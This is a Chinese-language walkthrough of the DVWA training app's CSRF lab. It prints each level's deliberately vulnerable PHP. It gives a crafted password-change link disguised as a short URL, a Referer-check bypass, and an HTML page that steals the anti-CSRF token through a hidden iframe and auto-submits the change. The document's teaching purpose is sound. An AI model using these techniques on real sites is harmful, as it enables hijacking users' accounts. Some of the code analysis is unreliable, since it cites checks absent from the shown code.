理解CSRF攻击：攻击者盗用4你的身份，以你的名义发送恶意请求。



## Low

### 源代码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

### 代码分析

可以看到 代码接收密码参数会检查password_new,password_conf是否相同除此以外并没有其他条件的限制，没任何防CSRF机制，并使用$GET传递。

另外，有一个 `mysqli_real_escape_string()`  函数，可用于转义SQL语句使用的字符串

> 下列字符受影响：
> \x00
> \n
> \r
> \
> '
> "
> \x1a
> 如果成功，则该函数返回被转义的字符串。如果失败，则返回 false。


### 漏洞例用

随便输个新密码并提交，可见URL变化：



构造链接：
http://localhost/DVWA-master/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change#

转换成短链接：

http://topurl.cn/bvQ


**构造攻击页面**

真实CSRF攻击中，攻击者为了隐藏自己的攻击手段，可能构造一个假的页面，然后放在公网上，诱导受害者访问这个页面，如果受害者访问了这个页面，那么受害者就会在不知情的情况下完成了CSRF攻击。自己测试可以写一个本地页面，也可以利用burpsuit直接生成攻击页面代码

- 抓取更改密码的数据包，利用engagement tools生成CDRF PoC

  

  点击 Test in browser，将链接复制到浏览器中打开

  

  点击"Submit request"，即可更改密码：

  


当然，也可以利用\标签伪造页面，让用户在不知情下访问，从而达到更改密码的目的

> 前提：此处使用get请求才能触发src

```html


<h1>404<h1>

<h2>file not found.<h2>
```


## Medium

### 源代码

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
            $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
            $pass_new = md5( $pass_new );

            // Update the database
            $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
            $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

            // Feedback for the user
            echo "<pre>Password Changed.</pre>";
        }
        else {
            // Issue with passwords matching
            echo "<pre>Passwords did not match.</pre>";
        }
    }
    else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

### 代码分析

`stripos(a,b)` 返回 b 存在于 a，字符串开始的位置，字符串起始位置为0，如果未发现 b 则返回false。代码检查了保留变量HTTP_REFERER （http包头部的Referer字段的值，表示来源地址）是否包含SERVER_NAME（http包头部的 Host 字段表示要访问的主机名）。

针对这一过滤规则，我们只要想办法绕过，那么我们后面的代码和low级别的基本都一样了，很容易实现CSRF攻击。

由于是本地phpstudy搭建的DVWA，所以http包中Host字段就是本机---127.0.0.1，而Referer字段就是本地搭建的DVWA页面的地址，故也包含127.0.0.1。

所以这个对于本地搭建的DVWA是无效的，但是在现实场景中一般是不包含的，所以我们可以通过更改页面文件名来绕过stripos函数。绕过方法：

假如服务器地址为192.168.31.2，即为SERVER_NAME，我们只需要把我们构造的恶意页面文件名改为192.168.31.2.html，HTTP_REFERER就会包含192.168.31.2.html,就可以绕过stripos了。

### 漏洞利用

确认：Intercept is on



点击Submit request，慕改Referer 为 localhost



Forward 出去，密码更改成功。




## High

### 源代码

```php+HTML
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 代码分析

high级别的源码中加入了Anti-csrf token机制，由checkToken函数来实现，用户每次访问更改密码页面时，服务器会返回一个随机的token，之后每次向服务器发起请求，服务器会优先验证token，如果token正确，那么才会处理请求。所以我们在发起请求之前需要获取服务器返回的user_token，利用user_token绕过验证。

绕过方案：使用burpsuit的CSRF Token Tracker插件可以直接绕过user_token验证。

### 漏洞利用

安装插件



进入插件添加Host和Name



同时，通过抓包得到token值



构造一个假的页面，放在服务器

```html
<script type="text/javascript">
    function attack()
  {
   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;
  document.getElementById("transfer").submit(); 
  }
</script>
 
<iframe src="http://192.168.109.136/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">
</iframe>
 
<body onload="attack()">
  <form method="GET" id="transfer" action="http://localhost/dvwa/vulnerabilities/csrf">
   <input type="hidden" name="password_new" value="password">
    <input type="hidden" name="password_conf" value="password">
   <input type="hidden" name="user_token" value="">
  <input type="hidden" name="Change" value="Change">
   </form>
</body>
```

等待用户点击，更改成功


## Impossible

### 源代码  

```php
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $pass_curr = $_GET[ 'password_current' ];
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Sanitise current password input
    $pass_curr = stripslashes( $pass_curr );
    $pass_curr = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_curr ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $pass_curr = md5( $pass_curr );

    // Check that the current password is correct
    $data = $db->prepare( 'SELECT password FROM users WHERE user = (:user) AND password = (:password) LIMIT 1;' );
    $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
    $data->bindParam( ':password', $pass_curr, PDO::PARAM_STR );
    $data->execute();

    // Do both new passwords match and does the current password match the user?
    if( ( $pass_new == $pass_conf ) && ( $data->rowCount() == 1 ) ) {
        // It does!
        $pass_new = stripslashes( $pass_new );
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update database with new password
        $data = $db->prepare( 'UPDATE users SET password = (:password) WHERE user = (:user);' );
        $data->bindParam( ':password', $pass_new, PDO::PARAM_STR );
        $data->bindParam( ':user', dvwaCurrentUser(), PDO::PARAM_STR );
        $data->execute();

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match or current password incorrect.</pre>";
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?>
```

### 代码分析

1. impossible.php代码采用了PDO技术，划清了代码与数据的界限，有效防御SQL注入
2. 只有当返回的查询结果数量为一个记录时，才会成功输出，这样就有效预防了暴库
3. 利用is_numeric($id)函数来判断输入的id是否是数字or数字字符串，满足条件才知晓query查询语句
4. Anti-CSRF token机制的加入了进一步提高了安全性，session_token是随机生成的动态值，每次向服务器请求，客户端都会携带最新从服务端下发的session_token值向服务器请求作匹配验证，相互匹配才会验证通过
